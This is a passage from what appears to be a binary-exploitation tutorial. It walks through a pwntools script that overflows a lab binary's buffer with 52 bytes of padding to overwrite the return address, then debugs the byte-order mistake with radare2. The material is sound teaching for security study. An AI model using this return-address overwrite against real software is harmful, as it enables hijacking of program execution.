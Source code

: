 Now we know the padding and the value, let's exploit the binary! We can use [`pwntools`](https://github.com/Gallopsled/pwntools) to interface with the binary (check out the [pwntools posts](https://ir0nstone.gitbook.io/notes/other/pwntools) for a more in-depth look).

```python
from pwn import *        # This is how we import pwntools

p = process('./vuln')    # We're starting a new process

payload = 'A' * 52
payload += '\x08\x04\x91\xc3'

p.clean()                # Receive all the text

p.sendline(payload)

log.info(p.clean())      # Output the "Exploited!" string to know we succeeded
```

If you run this, there is one small problem: it won't work. Why? Let's check with a debugger. We'll put a `pause()` to give us time to attach `radare2` to the process.

```python
from pwn import *

p = process('./vuln')

payload = b'A' * 52
payload += '\x08\x04\x91\xc3'

log.info(p.clean())

pause()        # add this in

p.sendline(payload)

log.info(p.clean())
```

Now let's run the script with `python3 exploit.py` and then open up a new terminal window.

```bash
r2 -d -A $(pidof vuln)
```

By providing the PID of the process, radare2 hooks onto it. Let's break at the return of `unsafe()` and read the value of the return pointer.

```bash
[0x08049172]> db 0x080491aa
[0x08049172]> dc

<< press any button on the exploit terminal window >>

hit breakpoint at: 80491aa
[0x080491aa]> pxw @ esp
0xffdb0f7c  0xc3910408 [...]
[...]
```
